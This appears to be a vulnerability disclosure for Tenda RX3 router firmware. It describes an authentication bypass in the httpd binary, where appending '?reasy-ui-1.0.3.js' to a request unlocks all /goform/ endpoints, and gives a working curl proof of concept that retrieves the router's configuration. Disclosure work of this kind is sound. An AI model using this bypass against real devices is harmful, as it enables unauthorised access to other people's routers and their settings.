


| Firmware Name | Firmware Version    | Download Link |
| ------------- | ------------------- | ------------- |
| RX3           | V16.03.13.11_multi  | https://static.tenda.com.cn/tdeweb/download/RX3/US_RX3V1.0br_V16.03.13.11_multi_TDE01.zip |

## Analysis

In the httpd binary, the authentication handler `R7WebsSecurityHandler` uses `strstr(url, "reasy-ui-1.0.3.js")` to whitelist a JavaScript file. Because `strstr` operates on the full URL including the query string, appending `?reasy-ui-1.0.3.js` to any request bypasses all authentication, granting unauthenticated access to all `/goform/` endpoints. This enables unauthenticated exploitation of all HTTP-based vulnerabilities in this repository.



## POC

```
curl -v http://192.168.0.1/goform/GetRouterStatus
# HTTP 302 redirect to login

curl http://192.168.0.1/goform/GetRouterStatus?reasy-ui-1.0.3.js
# HTTP 200 with full configuration JSON
```



## Demo

https://github.com/user-attachments/assets/bcff4155-7ce5-4969-abfc-870ed926b020
